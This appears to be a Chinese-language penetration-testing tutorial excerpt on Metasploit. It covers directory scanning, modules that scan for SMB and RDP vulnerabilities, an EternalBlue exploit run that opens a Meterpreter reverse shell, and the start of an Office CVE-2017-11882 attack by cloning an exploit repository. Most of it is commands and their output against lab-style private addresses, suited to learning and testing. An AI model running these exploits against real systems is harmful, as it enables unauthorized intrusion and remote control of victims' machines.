> 网站敏感目录扫描
>
> 可以借助Metasploit 中的辅助模块来进行敏感目录扫描。他们主要使用暴力猜解的方式工作，注意此处需要提供一个目录字典

```sh
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS 10.9.65.178
RHOSTS => 10.9.65.178
msf6 auxiliary(scanner/http/dir_scanner) > set THREADS 50
THREADS => 50
msf6 auxiliary(scanner/http/dir_scanner) > run
```

> 扫描内网中存在特定漏洞的主机
>
> windows

```sh
exploit/windows/smb/ms08_067_netapi
auxiliary/scanner/smb/smb_ms17_010
auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

---

> 主动渗透攻击
>
> 以永恒之蓝为例

```sh
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.9.65.224
RHOSTS => 10.9.65.224
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
...
[+] 10.9.65.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.9.65.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.9.65.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (10.9.65.228:4444 -> 10.9.65.224:58943) at 2021-05-09 23:11:58 -0400
meterpreter >
```

---

> 被动渗透攻击
>
> 以office2007-2016为例

下载利用脚本

```
┌──(ajest💋zh-CN)-[~/tools/office]
└─$ git clone https://github.com/starnightcyber/CVE-2017-11882.git
┌──(ajest💋zh-CN)-[~/tools/office]
└─$ cd CVE-2017-11882
┌──(ajest💋zh-CN)-[~/tools/office/CVE-2017-11882]
└─$ ls
Command_CVE-2017-11882.py example PS_shell.rb README.md
```

